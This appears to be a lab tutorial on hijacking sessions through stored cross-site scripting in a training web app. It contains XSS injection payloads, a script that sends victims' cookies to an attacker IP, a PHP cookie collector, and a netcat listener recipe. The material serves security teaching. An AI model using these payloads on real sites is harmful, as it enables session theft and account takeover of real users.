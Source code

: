 # Cross-Site Scripting (XSS)
We will focus on exploiting Cross-Site Scripting (XSS) vulnerabilities to obtain valid session identifiers (such as session cookies).

> Check out XSS Section for more in-depth attacks

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:
- Session cookies should be carried in all HTTP requests
- Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

> **Note**: If you're doing testing in the real world, try using something like [XSSHunter](https://xsshunter.com), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.
## Example Scenario
It looks like we can edit the input fields to update our email, phone number, and country.

In such cases, it is best to use payloads with event handlers like `onload` or `onerror` since they fire up automatically and also prove the highest impact on stored XSS cases. Of course, if they're blocked, you'll have to use something else like `onmouseover`.

In one field, let us specify the following payload:
```javascript
"><img src=x onerror=prompt(document.domain)>
```

In the remaining two fields, let us specify the following two payloads.
```javascript
"><img src=x onerror=confirm(1)>
```
```javascript
"><img src=x onerror=alert(1)>
```

The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it.

Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there.

If it works, let us now check if _HTTPOnly_ is "off" using Web Developer Tools.
![Profile page with pop-up alert '1', user 'Ela Stienen', username '@crazygorilla983', and fields containing XSS payloads.](https://academy.hackthebox.com/storage/modules/153/23.png)
- If it is off, we can continue
### Obtaining session cookies through XSS
Let us create a cookie-logging script (save it as `script.js`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. 

The below .js script can be hosted on your attacking machine:
```js
new Image().src='http://10.10.15.243:9001/index.php?c=' + document.cookie;
```

We can create this by starting:
```shell
cat << 'EOF' > script.js
```

Then paste the .js code, then type `EOF` to exit.

Now we need to write a PHP script (name it `index.php`) that will split cookies in case many were received, and write them to a file:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Then, we need to start an HTTP server with PHP in the same directory where `script.js` and `index.php` are:
```shell
php -S 0.0.0.0:9001
```

Now we enter the following payload into the vulnerable field:
```javascript
<script src=http://10.10.15.243:9001/script.js></script>
```

Now when the victim goes to the page, as long as your PHP server is running, the cookie will be captured and displayed in our listener
### Obtaining session cookies via XSS (Netcat edition)
Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

First, we place the below payload in the vulnerable field:
```javascript
<h1 onmouseover='document.write(`<img src="http://10.10.15.243:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Instruct Netcat to listen on port 8000 as follows:
```bash
nc -nlvp 8000
```

Now when the victim opens the page, we get their cookie sent to us in base64 from our listener.

> Note that the cookie is a Base64 value because we used the `btoa()` function, which will base64 encode the cookie's value. We can decode it using `atob("b64_string")` in the Dev Console of Web Developer Tools

# NOTES!
If the web application was utilizing SSL encryption, an attacker could still capture cookies through XSS.